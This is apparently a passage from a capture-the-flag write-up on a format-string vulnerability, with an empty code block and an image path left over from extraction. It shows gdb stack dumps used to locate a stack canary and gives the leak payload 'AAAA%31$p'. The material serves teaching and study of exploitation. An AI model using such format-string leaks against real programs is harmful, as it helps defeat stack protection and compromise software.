 ```c
```



input `AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p` and the stack layer be like :

```
[------------------------------------stack-------------------------------------]
0000| 0xffffcf7c --> 0x804866a (<vuln+60>:	add    esp,0x10)
0004| 0xffffcf80 --> 0xffffcf98 ("AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p\n.\346\367`m\373\367\n")
0008| 0xffffcf84 --> 0xffffcf98 ("AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p\n.\346\367`m\373\367\n")
0012| 0xffffcf88 --> 0x200 
0016| 0xffffcf8c --> 0xf7e6d3bc (<_IO_new_file_overflow+12>:	add    edx,0x148c44)
0020| 0xffffcf90 --> 0xf7fb6000 --> 0x1b2db0 
0024| 0xffffcf94 --> 0x0 
0028| 0xffffcf98 ("AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p\n.\346\367`m\373\367\n")
```



0xffffcf80 stores the addr of our input format string, and is the start addr of `printf`

```
gdb-peda$ x/50w 0xffffcf80
0xffffcf80:	0xffffcf98	0xffffcf98	0x00000200	0xf7e6d3bc
0xffffcf90:	0xf7fb6000	0x00000000	0x41414141	0x70257025
0xffffcfa0:	0x70257025	0x70257025	0x70257025	0x70257025
0xffffcfb0:	0x70257025	0x70257025	0x70257025	0xf7e62e0a
0xffffcfc0:	0xf7fb6d60	0x0000000a	0x0000000d	0xf7e69000
0xffffcfd0:	0xf7fe77eb	0xf7e02700	0x00000000	0xf7fb6d60
0xffffcfe0:	0xffffd028	0xf7fee010	0xf7e62cbb	0x00000000
0xffffcff0:	0xf7fb6000	0xf7fb6000	0xffffd028	0xc5f04d00
0xffffd000:	0x08048768	0x00000000	0xffffd028	0x080486c1
0xffffd010:	0x00000001	0xffffd0d4	0xffffd0dc	0xc5f04d00
0xffffd020:	0xf7fb63dc	0xffffd040	0x00000000	0xf7e1b647
0xffffd030:	0xf7fb6000	0xf7fb6000	0x00000000	0xf7e1b647
0xffffd040:	0x00000001	0xffffd0d4
```



Stop after `mov    eax,DWORD PTR [ebp-0xc]` executed. The value of eax is 0xc5f04d00 , which should be the canary value.

Find the offset of  0xc5f04d00 (canary address) in the former result, it is the 31th parameter of the format string AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p .

**Payload**: `AAAA%31$p  `

```shell
gdb-peda$ n

[----------------------------------registers-----------------------------------]
EAX: 0xc5f04d00 
EBX: 0x0 
ECX: 0xffffffff 
EDX: 0xf7fb7870 --> 0x0 
ESI: 0xf7fb6000 --> 0x1b2db0 
EDI: 0xf7fb6000 --> 0x1b2db0 
EBP: 0xffffd008 --> 0xffffd028 --> 0x0 
ESP: 0xffffcf90 --> 0xf7fb6000 --> 0x1b2db0 
EIP: 0x804867b (<vuln+77>:	xor    eax,DWORD PTR gs:0x14)
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048675 <vuln+71>:	jle    0x8048648 <vuln+26>
   0x8048677 <vuln+73>:	nop
   0x8048678 <vuln+74>:	mov    eax,DWORD PTR [ebp-0xc]
=> 0x804867b <vuln+77>:	xor    eax,DWORD PTR gs:0x14
   0x8048682 <vuln+84>:	je     0x8048689 <vuln+91>
   0x8048684 <vuln+86>:	call   0x8048450 <__stack_chk_fail@plt>
```
